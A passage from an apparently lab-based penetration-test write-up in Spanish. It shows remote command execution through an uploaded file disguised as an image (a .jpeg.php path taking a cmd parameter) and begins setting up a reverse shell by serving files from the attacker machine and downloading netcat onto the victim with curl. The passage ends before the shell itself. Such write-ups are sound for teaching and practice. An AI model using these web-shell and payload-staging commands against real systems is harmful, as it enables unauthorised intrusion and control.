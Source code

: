 ### RCE

Si nos dirigimos a la ruta `/resources/uploads/nombre-de-nuestra-imagen.jpeg.php` y le agregamos `?cmd=<comando>` veremos que tendremos la capacidad de ejecutar comandos sobre la máquina que aloja este servicio web.

```python
http://10.200.198.100/resources/uploads/jch.jpeg.php?cmd=ipconfig
```

![RCE last target](/assets/images/report/rcelasttarget.png)

#### Reverse Shell

Como ya estamos ejecutando comando sobre el sistema lo que sigue sera obtener una `reverse shell` para lo cual necesitaremos:

- Montar un servidor web en nuestra máquina de atacante.
- Subir `netcat` a la víctima.
- Ponernos a la escucha por un puerto.
- Enviarnos la `reverse shell`.

**Servidor Web**

```python
python -m SimpleHTTPServer 9090
```

Algunos de los comandos que ejecutaremos cuentan con caracteres especiales por lo cual es buena practica antes de enviar nuestro comando ponerlo en formato `url`, para ello yo usare [urlencoder.io](https://www.urlencoder.io/).

**Comando**

```python
curl http://10.50.195.140:9090/nc64.exe -o nc64.exe
```
